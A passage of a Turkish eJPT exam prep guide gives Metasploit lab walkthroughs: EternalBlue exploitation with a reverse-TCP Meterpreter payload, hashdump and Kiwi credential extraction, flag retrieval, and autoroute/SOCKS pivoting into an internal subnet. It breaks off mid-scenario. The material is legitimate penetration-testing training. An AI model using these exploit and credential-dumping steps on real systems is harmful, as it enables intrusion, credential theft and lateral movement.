


<style>
  /* Premium Design System */
  :root {
    --accent-blue: #3b82f6;
    --accent-green: #10b981;
    --accent-purple: #8b5cf6;
    --accent-orange: #f97316;
    --accent-red: #ef4444;
    
    /* Light Theme Settings */
    --card-bg: rgba(241, 245, 249, 0.85);
    --card-border: #cbd5e1;
    --text-color: #0f172a;
    --text-muted: #475569;
    --code-bg: #1e293b;
    --code-text: #f8fafc;
    --inline-code-bg: #f1f5f9;
    --inline-code-text: #e11d48;
    --q-bg: rgba(255, 255, 255, 0.9);
    --shadow: 0 4px 6px -1px rgba(0, 0, 0, 0.05), 0 2px 4px -2px rgba(0, 0, 0, 0.05);
    --banner-gradient: linear-gradient(135deg, #1e293b, #0f172a);
  }

  @media (prefers-color-scheme: dark) {
    :root {
      /* Dark Theme Settings */
      --card-bg: rgba(30, 41, 59, 0.65);
      --card-border: #334155;
      --text-color: #f8fafc;
      --text-muted: #94a3b8;
      --code-bg: #0f172a;
      --code-text: #e2e8f0;
      --inline-code-bg: #1e293b;
      --inline-code-text: #fda4af;
      --q-bg: rgba(15, 23, 42, 0.6);
      --shadow: 0 10px 15px -3px rgba(0, 0, 0, 0.3), 0 4px 6px -4px rgba(0, 0, 0, 0.3);
    }
  }

  /* Main Banner Styling */
  .main-banner {
    background: var(--banner-gradient);
    border: 1px solid var(--card-border);
    border-radius: 16px;
    padding: 35px 25px;
    text-align: center;
    position: relative;
    overflow: hidden;
    margin-bottom: 30px;
    box-shadow: var(--shadow);
  }

  .main-banner h1 {
    margin: 0;
    font-size: 2.2em;
    font-weight: 800;
    letter-spacing: -0.02em;
    background: linear-gradient(120deg, #60a5fa, #a78bfa, #f97316);
    background-size: 200% auto;
    -webkit-background-clip: text;
    -webkit-text-fill-color: transparent;
    animation: shine 6s linear infinite;
  }

  .banner-subtitle {
    margin: 12px 0 0 0;
    font-size: 1.1em;
    color: #f8fafc;
    opacity: 0.85;
  }

  @keyframes shine {
    to { background-position: 200% center; }
  }

  /* Scenarios Grid for TOC */
  .scenarios-grid {
    display: grid;
    grid-template-columns: 1fr;
    gap: 16px;
    margin: 25px 0;
  }

  @media (min-width: 768px) {
    .scenarios-grid {
      grid-template-columns: 1fr 1fr;
    }
  }

  .toc-card {
    background-color: var(--card-bg);
    border: 1px solid var(--card-border);
    border-radius: 12px;
    padding: 16px;
    height: 100%;
    box-sizing: border-box;
    transition: all 0.25s cubic-bezier(0.4, 0, 0.2, 1);
    cursor: pointer;
    display: flex;
    flex-direction: column;
    justify-content: space-between;
  }

  .toc-card h4 {
    margin: 8px 0 4px 0;
    font-size: 1.05em;
    color: var(--text-color);
  }

  .toc-card p {
    margin: 0;
    font-size: 0.85em;
    color: var(--text-muted);
    line-height: 1.4;
  }

  .toc-badge {
    align-self: flex-start;
    padding: 3px 8px;
    font-size: 0.7em;
    font-weight: 700;
    border-radius: 4px;
    text-transform: uppercase;
    letter-spacing: 0.05em;
  }

  /* Theme borders for TOC */
  .win-theme { border-left: 4px solid var(--accent-blue); }
  .win-theme .toc-badge { background: rgba(59, 130, 246, 0.12); color: var(--accent-blue); }

  .lin-theme { border-left: 4px solid var(--accent-orange); }
  .lin-theme .toc-badge { background: rgba(249, 115, 22, 0.12); color: var(--accent-orange); }

  .piv-theme { border-left: 4px solid var(--accent-purple); }
  .piv-theme .toc-badge { background: rgba(139, 92, 246, 0.12); color: var(--accent-purple); }

  .web-theme { border-left: 4px solid var(--accent-green); }
  .web-theme .toc-badge { background: rgba(16, 185, 129, 0.12); color: var(--accent-green); }

  .msf-theme { border-left: 4px solid var(--accent-red); }
  .msf-theme .toc-badge { background: rgba(239, 68, 68, 0.12); color: var(--accent-red); }

  .toc-card:hover {
    transform: translateY(-3px);
    box-shadow: var(--shadow);
    border-color: var(--accent-blue);
    background-color: var(--q-bg);
  }

  /* Scenario Section Header */
  .scenario-section-header {
    background-color: var(--card-bg);
    border-left: 5px solid var(--accent-blue);
    border-radius: 0 12px 12px 0;
    padding: 16px 20px;
    margin: 35px 0 20px 0;
    box-shadow: var(--shadow);
    display: flex;
    flex-direction: column;
    gap: 8px;
    border-top: 1px solid var(--card-border);
    border-right: 1px solid var(--card-border);
    border-bottom: 1px solid var(--card-border);
  }

  .scenario-section-header.win { border-left-color: var(--accent-blue); }
  .scenario-section-header.piv { border-left-color: var(--accent-purple); }
  .scenario-section-header.msf { border-left-color: var(--accent-red); }
  .scenario-section-header.lin { border-left-color: var(--accent-orange); }
  .scenario-section-header.web { border-left-color: var(--accent-green); }

  .scenario-section-header h3 {
    margin: 0;
    font-size: 1.3em;
    color: var(--text-color);
  }

  .scenario-metadata {
    font-size: 0.9em;
    color: var(--text-muted);
    margin: 0;
    line-height: 1.5;
  }

  /* Details Question Cards */
  details.interactive-card {
    background-color: var(--card-bg);
    border: 1px solid var(--card-border);
    border-radius: 12px;
    margin: 16px 0;
    padding: 14px 18px;
    box-shadow: var(--shadow);
    transition: transform 0.2s cubic-bezier(0.4, 0, 0.2, 1), box-shadow 0.2s ease, border-color 0.2s ease;
  }

  details.interactive-card:hover {
    transform: translateY(-2px);
    border-color: var(--accent-blue);
    box-shadow: 0 8px 16px rgba(0,0,0,0.1);
  }

  details.interactive-card[open] {
    border-color: var(--accent-blue);
    background-color: var(--q-bg);
    animation: slideDown 0.3s ease-out;
  }

  @keyframes slideDown {
    from { opacity: 0; transform: translateY(-5px); }
    to { opacity: 1; transform: translateY(0); }
  }

  summary.card-title {
    font-weight: 700;
    font-size: 1.02em;
    color: var(--text-color);
    cursor: pointer;
    list-style: none;
    display: flex;
    justify-content: space-between;
    align-items: center;
    user-select: none;
    outline: none;
  }

  summary.card-title::-webkit-details-marker {
    display: none;
  }

  summary.card-title::after {
    content: "📁 Çözümü Göster";
    font-size: 0.82em;
    padding: 4px 10px;
    background: rgba(59, 130, 246, 0.1);
    color: var(--accent-blue);
    border-radius: 6px;
    font-weight: 600;
    transition: all 0.2s ease;
  }

  details[open] > summary.card-title::after {
    content: "📂 Çözümü Gizle";
    background: rgba(16, 185, 129, 0.1);
    color: var(--accent-green);
  }

  /* Code and Terminal Window Styling */
  .terminal-window {
    border-radius: 8px;
    overflow: hidden;
    border: 1px solid var(--card-border);
    box-shadow: 0 4px 12px rgba(0,0,0,0.15);
    margin: 15px 0;
  }

  .terminal-bar {
    background-color: #1e293b;
    height: 32px;
    display: flex;
    align-items: center;
    padding: 0 12px;
    position: relative;
    border-bottom: 1px solid rgba(255,255,255,0.05);
  }

  .terminal-btn {
    width: 12px;
    height: 12px;
    border-radius: 50%;
    margin-right: 8px;
    display: inline-block;
  }

  .close-btn { background-color: #ef4444; }
  .minimize-btn { background-color: #eab308; }
  .maximize-btn { background-color: #22c55e; }

  .terminal-title {
    color: #94a3b8;
    font-size: 0.8em;
    font-family: monospace;
    position: absolute;
    left: 50%;
    transform: translateX(-50%);
  }

  .terminal-body {
    margin: 0;
    padding: 0;
  }

  .terminal-body pre {
    margin: 0 !important;
    border: none !important;
    border-radius: 0 !important;
    background-color: var(--code-bg) !important;
    padding: 14px !important;
  }

  .terminal-body pre code {
    color: var(--code-text) !important;
    font-family: 'Fira Code', 'Courier New', Courier, monospace;
    font-size: 0.88em;
  }

  /* Inline Code Styling */
  code {
    background-color: var(--inline-code-bg);
    color: var(--inline-code-text);
    padding: 2px 6px;
    border-radius: 4px;
    font-family: 'Fira Code', 'Courier New', Courier, monospace;
    font-size: 0.9em;
  }

  /* Badges */
  .custom-badge {
    display: inline-block;
    padding: 2px 8px;
    border-radius: 6px;
    font-size: 0.75em;
    font-weight: 700;
    text-transform: uppercase;
    letter-spacing: 0.05em;
    margin-right: 5px;
    vertical-align: middle;
  }
  .badge-win { background-color: rgba(59, 130, 246, 0.12); color: var(--accent-blue); border: 1px solid rgba(59, 130, 246, 0.2); }
  .badge-lin { background-color: rgba(249, 115, 22, 0.12); color: var(--accent-orange); border: 1px solid rgba(249, 115, 22, 0.2); }
  .badge-piv { background-color: rgba(139, 92, 246, 0.12); color: var(--accent-purple); border: 1px solid rgba(139, 92, 246, 0.2); }
  .badge-web { background-color: rgba(16, 185, 129, 0.12); color: var(--accent-green); border: 1px solid rgba(16, 185, 129, 0.2); }
  .badge-msf { background-color: rgba(239, 68, 68, 0.12); color: var(--accent-red); border: 1px solid rgba(239, 68, 68, 0.2); }

  /* Premium alert formatting adjustments */
  .markdown-alert, .callout, blockquote {
    border-left: 4px solid var(--accent-blue) !important;
    background-color: var(--card-bg) !important;
    color: var(--text-color) !important;
    border-radius: 8px;
    padding: 12px 16px;
    margin: 16px 0;
  }
  
  /* Tables */
  table {
    width: 100%;
    border-collapse: collapse;
    margin: 20px 0;
    font-size: 0.9em;
  }
  th {
    background-color: var(--card-bg);
    color: var(--text-color);
    font-weight: 700;
    text-align: left;
    padding: 12px;
    border-bottom: 2px solid var(--card-border);
  }
  td {
    padding: 12px;
    border-bottom: 1px solid var(--card-border);
    color: var(--text-color);
  }
  tr:hover {
    background-color: var(--q-bg);
  }
</style>


<div class="main-banner">
  <div class="banner-overlay"></div>
  <h1>🎯 eJPT Sınav Soruları & Pratik Senaryolar</h1>
  <p class="banner-subtitle">Metasploit Özel Sayısı — Premium Çalışma Rehberi 🏆</p>
</div>

Bu dosyadaki tüm sorular aşağıdaki **iki kaynağa** dayanarak oluşturulmuştur:

1. **INE Resmi Sınav Müfredatı (Exam Domains)**
   eJPT v2'nin resmi sınav alanları — özellikle **Host & Network Penetration Testing** bölümü (sınavın **%35**'i) Metasploit, Meterpreter, pivotlama ve post-exploitation konularını kapsar. Metasploit Framework bu bölümün **ana aracıdır** ve sınavdaki 35 sorunun yaklaşık **%40-50'si** doğrudan veya dolaylı olarak Metasploit kullanımını gerektirir.

2. **Topluluk Deneyimleri (Reddit, Medium, InfoSec Writeups)**
   Sınavı geçen adayların paylaştığı sınav deneyimi yazıları — *"şu tarz sorular geldi"*, *"pivotlama çok önemliydi"*, *"hash dump istendi"*, *"flag dosyası bulmamız gerekti"* gibi ipuçları. Adayların *"şu konudan takıldım"* dediği noktalar (özellikle proxychains + nmap kuralları, autoroute, `sessions -u`).

> [!IMPORTANT]
> **Sınav Formatı Hatırlatma:**
> eJPT sınavı %100 pratik (hands-on) bir sınavdır. 35 soru, 48 saat süre verilir. Sorular canlı lab ortamında sisteme sızarak cevaplanır. Teorik "şıklı" soru yoktur; her cevap lab'dan elde ettiğiniz bir veri parçasıdır (IP adresi, hash değeri, dosya içeriği, şifre vb.). Sınav açık kitap (open-book) formatındadır.

---

## 📑 İçindekiler

<div class="scenarios-grid">
  <a href="#senaryo-1" style="text-decoration: none;">
    <div class="toc-card win-theme">
      <span class="toc-badge">Senaryo 1</span>
      <h4>🔵 Windows SMB Exploitation</h4>
      <p>EternalBlue sömürüsü ve Kiwi ile hash toplama adımları.</p>
    </div>
  </a>
  <a href="#senaryo-2" style="text-decoration: none;">
    <div class="toc-card piv-theme">
      <span class="toc-badge">Senaryo 2</span>
      <h4>🟢 Pivotlama & İç Ağ</h4>
      <p>Autoroute, SOCKS proxy, proxychains ve Port Forwarding.</p>
    </div>
  </a>
  <a href="#senaryo-3" style="text-decoration: none;">
    <div class="toc-card msf-theme">
      <span class="toc-badge">Senaryo 3</span>
      <h4>🟠 Brute Force & PsExec</h4>
      <p>SMB/SSH kaba kuvvet saldırıları ve PsExec ile sızma.</p>
    </div>
  </a>
  <a href="#senaryo-4" style="text-decoration: none;">
    <div class="toc-card lin-theme">
      <span class="toc-badge">Senaryo 4</span>
      <h4>🔴 Linux Servis Exploits</h4>
      <p>vsftpd, UnrealIRCd sömürüsü ve yetki yükseltme.</p>
    </div>
  </a>
  <a href="#senaryo-5" style="text-decoration: none;">
    <div class="toc-card web-theme">
      <span class="toc-badge">Senaryo 5</span>
      <h4>🟣 Web App Exploitation</h4>
      <p>Tomcat Manager ve WordPress zafiyetleri üzerinden sızma.</p>
    </div>
  </a>
  <a href="#senaryo-6" style="text-decoration: none;">
    <div class="toc-card win-theme">
      <span class="toc-badge">Senaryo 6</span>
      <h4>🟤 Pass-the-Hash</h4>
      <p>NTLM hash kullanarak ağda yatay hareket adımları.</p>
    </div>
  </a>
  <a href="#senaryo-7" style="text-decoration: none;">
    <div class="toc-card msf-theme">
      <span class="toc-badge">Senaryo 7</span>
      <h4>⚫ Msfvenom & Handler</h4>
      <p>Farklı mimariler için payload üretimi ve dinleyici ayarları.</p>
    </div>
  </a>
  <a href="#senaryo-8" style="text-decoration: none;">
    <div class="toc-card piv-theme">
      <span class="toc-badge">Senaryo 8</span>
      <h4>🔶 Tam Zincir (Full Chain)</h4>
      <p>Dış ağdan sızıp pivotlayarak iç ağ hedeflerini ele geçirme.</p>
    </div>
  </a>
</div>

---

<div id="senaryo-1"></div>

<div class="scenario-section-header win">
  <div>
    <span class="custom-badge badge-win">Windows 7</span>
    <span class="custom-badge badge-msf">Senaryo 1</span>
  </div>
  <h3>🔵 Windows SMB Exploitation & Hash Toplama</h3>
  <p class="scenario-metadata">**Durum:** Nmap taraması sonucunda `10.10.10.5` IP adresli hedefte port **445 (SMB)** açık ve sistem **Windows 7 Professional SP1 (x64)** olarak tespit edildi.</p>
</div>


### ❓ Soru 1: `10.10.10.5` hedefindeki SMB servisi MS17-010 (EternalBlue) zafiyetine karşı savunmasız mıdır? Doğrulayınız.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.10.10.5
msf6 auxiliary(scanner/smb/smb_ms17_010) > run</code></pre>
  </div>
</div>

**Beklenen Çıktı:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">output</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-text">[+] 10.10.10.5:445 - Host is likely VULNERABLE to MS17-010!</code></pre>
  </div>
</div>

Yeşil `[+]` görüyorsanız → **Evet, savunmasızdır.** Exploit'e geçebilirsiniz.

</details>

---

### ❓ Soru 2: EternalBlue zafiyetini kullanarak `10.10.10.5` hedefine sızınız. Hangi yetki ile oturum elde ettiniz?

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > set RHOSTS 10.10.10.5
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > set LPORT 4444
msf6 exploit(...) > exploit</code></pre>
  </div>
</div>

**Yetki doğrulama:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">meterpreter</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">meterpreter > getuid
# Server username: NT AUTHORITY\SYSTEM</code></pre>
  </div>
</div>

**Cevap:** EternalBlue doğrudan **NT AUTHORITY\SYSTEM** yetkisi verir.

</details>

---

### ❓ Soru 3: Hedef makinenin tam işletim sistemi adı, bilgisayar adı ve mimari bilgisi nedir?

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">meterpreter</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">meterpreter > sysinfo</code></pre>
  </div>
</div>

**Örnek Çıktı:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">meterpreter</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-text">Computer        : WIN-VICTIM
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Meterpreter     : x64/windows</code></pre>
  </div>
</div>

**Cevap:** `Windows 7 Professional SP1 (x64)`, bilgisayar adı: `WIN-VICTIM`

> [!WARNING]
> Eğer çıktıda `Architecture: x64` ama `Meterpreter: x86/windows` görüyorsanız → 32-bit payload ile 64-bit sisteme girdiniz. `hashdump` ve `kiwi` düzgün çalışmayabilir. Derhal 64-bit bir sürece migrate edin:
> `migrate -N explorer.exe`

</details>

---

### ❓ Soru 4: `10.10.10.5` hedefindeki **Administrator** kullanıcısının NTLM hash değeri nedir?

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">meterpreter</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">meterpreter > hashdump</code></pre>
  </div>
</div>

**Örnek Çıktı:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">output</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-text">Administrator:500:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1001:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::</code></pre>
  </div>
</div>

**Cevap:** `e02bc503339d51f71d913c245d35b50b`

**Format:** `KullanıcıAdı : RID : LM_Hash : NTLM_Hash :::`
* NTLM Hash → iki nokta üst üste (`:`) arasındaki **4. alan**

</details>

---

### ❓ Soru 5: Kiwi (Mimikatz) eklentisini kullanarak Administrator'ın düz metin (plaintext) şifresini elde ediniz.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">meterpreter</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash"># 1. SYSTEM yetkisinde ve 64-bit süreçte olduğunuzdan emin olun
meterpreter > getuid
# NT AUTHORITY\SYSTEM ✓

# 2. Kiwi eklentisini yükle
meterpreter > load kiwi

# 3. RAM'deki tüm kimlik bilgilerini çek
meterpreter > creds_all</code></pre>
  </div>
</div>

**Örnek Çıktı:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">output</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-text">wdigest credentials
===================

Username       Domain       Password
--------       ------       --------
Administrator  WIN-VICTIM   SuperSecurePassword123!
student        WIN-VICTIM   StudentPass12</code></pre>
  </div>
</div>

**Cevap:** `SuperSecurePassword123!`

> [!TIP]
> Kiwi çalışmazsa:
> 1. `getuid` → SYSTEM olduğunuzdan emin olun
> 2. `sysinfo` → Meterpreter x86 ise 64-bit sürece migrate edin: `migrate -N lsass.exe`

</details>

---

### ❓ Soru 6: `C:\Users\Administrator\Desktop\` dizinindeki `flag.txt` dosyasının içeriği nedir?

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">meterpreter</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash"># Yöntem 1: Doğrudan oku
meterpreter > cat c:\\Users\\Administrator\\Desktop\\flag.txt

# Yöntem 2: Önce ara, sonra indir
meterpreter > search -f *flag*
meterpreter > download c:\\Users\\Administrator\\Desktop\\flag.txt /home/kali/Desktop/</code></pre>
  </div>
</div>

**Cevap:** Dosyanın içeriği ne ise onu sınav portalına yazın (Örn: `eJPT{abc123...}`)

> [!NOTE]
> Windows yollarında çift ters taksim `\\` kullanmayı unutmayın!

</details>

---

<div id="senaryo-2"></div>

<div class="scenario-section-header piv">
  <div>
    <span class="custom-badge badge-piv">Pivoting</span>
    <span class="custom-badge badge-msf">Senaryo 2</span>
  </div>
  <h3>🟢 Pivotlama — İç Ağ Keşfi & Sızma</h3>
  <p class="scenario-metadata">**Durum:** `10.10.10.5` hedefine sızdınız (Session 1, Meterpreter, SYSTEM yetkisi). `ipconfig` çıktısında hedefin **ikinci bir ağ kartına** sahip olduğunu fark ettiniz.

> [!IMPORTANT]
> **Topluluk Notu:** Sınavı geçen adayların büyük çoğunluğu *"pivotlama yapamayan sınavı geçemez"* diyor. Bu bölüm sınavın en kritik kısmıdır.</p>
</div>




### ❓ Soru 7: Hedef makinenin ağ arayüzlerini inceleyiniz. Bizim erişemediğimiz iç ağın subnet'i nedir?

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">meterpreter</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">meterpreter > ipconfig</code></pre>
  </div>
</div>

**Örnek Çıktı:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">output</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-text">Interface  1
  IP Address  : 10.10.10.5
  Netmask     : 255.255.255.0

Interface  2
  IP Address  : 10.1.1.5
  Netmask     : 255.255.255.0</code></pre>
  </div>
</div>

**Cevap:** `10.1.1.0/24`

Bu ağa doğrudan erişemezsiniz. Pivotlama yapmalısınız.

</details>

---

### ❓ Soru 8: İç ağa (`10.1.1.0/24`) Metasploit üzerinden rota ekleyiniz ve doğrulayınız.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash"># 1. Oturumu arka plana al
meterpreter > background

# 2. Autoroute modülünü kullan
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > run

# Başarılı çıktı:
# [+] Route added to 10.1.1.0/255.255.255.0 via Session 1

# 3. Rotayı doğrula
msf6 > route print</code></pre>
  </div>
</div>

**Alternatif (Manuel):**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > route add 10.1.1.0 255.255.255.0 1</code></pre>
  </div>
</div>

</details>

---

### ❓ Soru 9: İç ağda (`10.1.1.0/24`) hangi IP adreslerinde hangi portlar açıktır? Tarayınız.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.1.1.0/24
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 21,22,80,445,3306,3389,8080
msf6 auxiliary(scanner/portscan/tcp) > set THREADS 50
msf6 auxiliary(scanner/portscan/tcp) > run</code></pre>
  </div>
</div>

**Örnek Çıktı:**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">output</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-text">[+] 10.1.1.12: - 10.1.1.12:22 - TCP OPEN
[+] 10.1.1.12: - 10.1.1.12:80 - TCP OPEN
[+] 10.1.1.20: - 10.1.1.20:445 - TCP OPEN</code></pre>
  </div>
</div>

**Cevap:** Çıktıdaki IP'ler ve açık portlar sınav portalına girilir.

</details>

---

### ❓ Soru 10: İç ağdaki `10.1.1.12` makinesine Kali'deki Nmap ile port taraması yapmak istiyorsunuz. SOCKS proxy kurup proxychains ile tarama yapınız.

<details class="interactive-card">
<summary class="card-title">Cevabı ve Çözüm Adımlarını Göster</summary>

**Adım 1: SOCKS Proxy Başlat**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">msfconsole</span>
  </div>
  <div class="terminal-body">
    <pre><code class="language-bash">msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run -j</code></pre>
  </div>
</div>

**Adım 2: Proxychains Yapılandır**
<div class="terminal-window">
  <div class="terminal-bar">
    <div class="terminal-btn close-btn"></div>
    <div class="terminal-btn minimize-btn"></div>
    <div class="terminal-btn maximize-btn"></div>
    <span class="terminal-title">proxychains</span>
  </div>
